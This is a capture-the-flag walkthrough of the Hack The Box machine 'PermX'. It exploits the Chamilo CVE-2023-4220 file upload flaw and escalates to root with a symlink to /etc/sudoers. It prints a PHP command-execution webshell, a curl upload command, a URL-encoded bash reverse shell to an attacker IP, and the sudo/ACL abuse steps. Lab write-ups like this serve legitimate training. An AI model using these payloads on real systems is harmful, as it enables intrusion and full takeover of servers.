# PermX

## Enumeration and Findings

First I ran Nmap to scan the machine:



We have SSH open and port 8 TCP with Apache installed. Apache is a good target for us in these situations, so I went ahead and tried to visit our domain `permx.htb`, but first, let’s add it to our `/etc/hosts` file.



Going through the app, we can tell it’s a static website.


So I started fuzzing the **Vhosts**.



Here we have 2 subdomains, **www** and **lms**. The `lms` one is an admin login panel.



I was about to start fuzzing again for directories and files, but I checked the `/robots.txt` first and it’s looking good.



We can find many routes. By visiting the documentation, we know some info, such as the exact version of Chamilo.



## Exploitation

I started searching for any CVE or exploit for it and found this one [**Chamilo-CVE-2023–4220-Exploit**](https://github.com/Ziad-Sakr/Chamilo-CVE-2023-4220-Exploit). It’s about unauthenticated Big Upload file remote code execution.

I tried to use the automated bash script with the [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell):

```bash
sudo ./CVE-2023-4220.sh -f /home/kite/Downloads/php-reverse-shell.php -h http://lms.permx.htb/ -p 4444
```



But the shell has a problem and it doesn’t work, as you can see, but it has been uploaded successfully.



So let’s try it manually using this [simple backdoor](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php), putting it into the `shell.php` file:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

Then execute this command:

```bash
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

Let’s test it by executing the `id` command:

```
http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?cmd=id
```


Let’s inject our reverse shell:

```
http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.66%2F4444%200%3E%261%27
```

Then set up a Netcat listener with `nc -nlvp 4444`, and it worked fine.


## Privilege Escalation

Trying to upgrade the shell to an interactive TTY:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

We can download `linpeas.sh` to `/var/www/html`.



2 users on the system:



Tried this pass with the `mtz` user and it worked!

I closed this session and used SSH to connect since it’s better and we got the first user.





Trying to get the root user, I checked what I could do with sudo:

```bash
sudo -l
```


We can notice the `/opt/acl.sh` file that we can run with no password:

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi
```

This script takes the user, permissions, and the target file as parameters and changes permissions for this file, but the target file has to be in our home folder.

So let’s just make a symbolic link to the sudoers file and change our permissions on this file to read/write:

```bash
ln -s /etc/sudoers Sir_Reda
sudo /opt/acl.sh mtz rw /home/mtz/Sir_Reda
```

After granting our user ALL privileges:


Then `sudo su` to the root user.


